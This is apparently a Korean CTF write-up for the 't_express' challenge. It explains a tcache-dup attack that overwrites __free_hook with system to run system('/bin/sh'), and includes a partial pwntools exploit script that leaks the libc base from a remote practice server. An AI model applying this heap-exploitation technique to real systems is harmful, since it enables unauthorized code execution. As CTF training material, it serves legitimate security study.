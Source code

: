 tcache dup

- 다음 tcache에는 "/bin/sh\x00" 문자열을 집어 넣어할당한다. 나중에 __free_hook 주소를 system 주소로 변경하여 free를 호출할 때 system 함수가 호출되면서 해당 힙 청크를 인자로 사용하기 위해서이다.`system(/bin/sh\x00)`

![./26.png](./26.png)

flag

- flag를 획득할 수 있다.

## 공격 코드

```python
from pwn import *

e = ELF('./t_express')
l = ELF('./libc.so.6')
# p = process('./t_express')
p = remote('ctf.campus.theori.io', 7079)

def Buy(num, first, last):
    log.info(p.sendafter("choice: ", "1"))
    log.info(p.sendafter("(1/2): ", str(num))+str(num))
    log.info(p.sendafter("First name: ", str(first)) + str(first))
    log.info(p.sendafter("Last name: ", str(last)) + str(last))

def View(idx):
    log.info(p.sendafter("choice: ", "2"))
    log.info(p.sendafter("Index of ticket: ", str(idx)) + str(idx))
    # leak (lib_base)
    if idx < 0:
        log.info(p.recvuntil("|name |"))
        lib_base = u64(p.recvline()[-9:-3].ljust(8, '\x00')
                       ) - 0x83 - l.sym['_IO_2_1_stderr_']
        log.info("lib_base : " + hex(lib_base) )
        return lib_base
    else:
        log.info(p.recvuntil("==========================\n"))
        log.info(p.recvuntil("==========================\n"))

def Use(idx, num):
    log.info(p.sendafter("choice: ", "3"))
    log.info(p.sendafter("Index of ticket: ", str(idx)) + str(idx))
    log.info(p.sendafter("(1/2/3/4): ", str(num)) + str(num))

def _free(idx):
    for i in range(0,3):
        Use(idx, 1)
    Use(idx, 2)
    Use(idx, 3)

lib_base = View(-4)
```